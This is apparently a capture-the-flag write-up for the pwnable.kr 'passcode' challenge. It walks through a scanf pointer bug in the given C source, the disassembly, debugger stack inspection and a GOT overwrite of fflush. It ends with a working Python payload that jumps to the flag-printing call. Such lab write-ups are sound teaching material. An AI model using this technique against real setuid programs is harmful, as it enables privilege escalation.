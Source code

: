# passcode
The fifth challenge from pwnable.kr

## Description
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)

## Solution

After ssh, we see the following:

`ls -lh`

```
-r--r----- 1 root passcode_pwn   48 Jun 26  2014 flag
-r-xr-sr-x 1 root passcode_pwn 7.4K Jun 26  2014 passcode
-rw-r--r-- 1 root root          858 Jun 26  2014 passcode.c
```

We can see that executes with suid bit of passcode_pwn, which would allow it to open flag.

Let's try to compile the source code to see what warning they're talking about.

`gcc passcode.c`

```
passcode.c: In function ‘login’:
passcode.c:9:2: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
  scanf("%d", passcode1);
  ^
passcode.c:14:9: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
         scanf("%d", passcode2);
         ^
```

If we try to run the program, we get the following:

`./passcode`

```
Toddler's Secure Login System 1.0 beta.
enter you name : Fuck
Welcome Fuck!
enter passcode1 : 338150
enter passcode2 : 13371337
Segmentation fault
```

Source code is provided again in this challenge, let's take a look at it.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

The disassembly gives us more insight on which memory addresses are being used during the passcode comparisons.

```asm
80485c5:	81 7d f0 e6 28 05 00 	cmpl   $0x528e6,-0x10(%ebp)
80485cc:	75 23                	jne    80485f1 <login+0x8d>
80485ce:	81 7d f4 c9 07 cc 00 	cmpl   $0xcc07c9,-0xc(%ebp)
80485d5:	75 1a                	jne    80485f1 <login+0x8d>
80485d7:	c7 04 24 a5 87 04 08 	movl   $0x80487a5,(%esp)
80485de:	e8 6d fe ff ff       	call   8048450 <puts@plt>
80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)
80485ea:	e8 71 fe ff ff       	call   8048460 <system@plt>
```

Let's see what the stack looks like if we fill name[100].

`pwndbg ./passcode`

```
pwndbg> b *0x80485c5
Breakpoint 1 at 0x80485c5
```

```
pwndbg> r
Starting program: /home/ctf/challenges/passcode/passcode
Toddler's Secure Login System 1.0 beta.
enter you name : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
enter passcode1 : a
enter passcode2 : checking...

Breakpoint 1, 0x080485c5 in login ()
```

```
pwndbg> x/4wx $ebp-0x10
0xff925418:	0x61616161	0xbf99e000	0x00000000	0x00000000
```

Part of our buffer is reused in the stack of login(), particularly the memory address of passcode1 which is `-0x10(%ebp)`.

`scanf("%d", passcode1)` is not dereferencing passcode1, which means scanf will load an address and write a value there instead.

So let's write an address with the last 4 bytes during `scanf("%100s", name)`, then overwrite with a value of our own during `scanf("%d", passcode1)`.

One thing we can do, since this code is has dynamically linked libraries, is overwrite a reloc in the PLT so that our code jumps where we want when that call is made.

```
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts
0804a010  00000507 R_386_JUMP_SLOT   00000000   system
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf
```

fflush is conveniently called right after our second scanf, and also has neither whitespace/null hex value representations in its address, so let's use that.

`80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)` is where we want to jump to.

We pad our buffer with 96 bytes, then the address of fflush, `0x0804a004`, then the address we want to jump to when fflush is eventually called, in int representation, `134514147`.


### Capturing the Flag

```
passcode@ubuntu:~$ python -c "print('a'*96+'\x04\xa0\x04\x08\n134514147\n10\n')" > /tmp/passcode.input
passcode@ubuntu:~$ ./passcode < /tmp/passcode.input
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

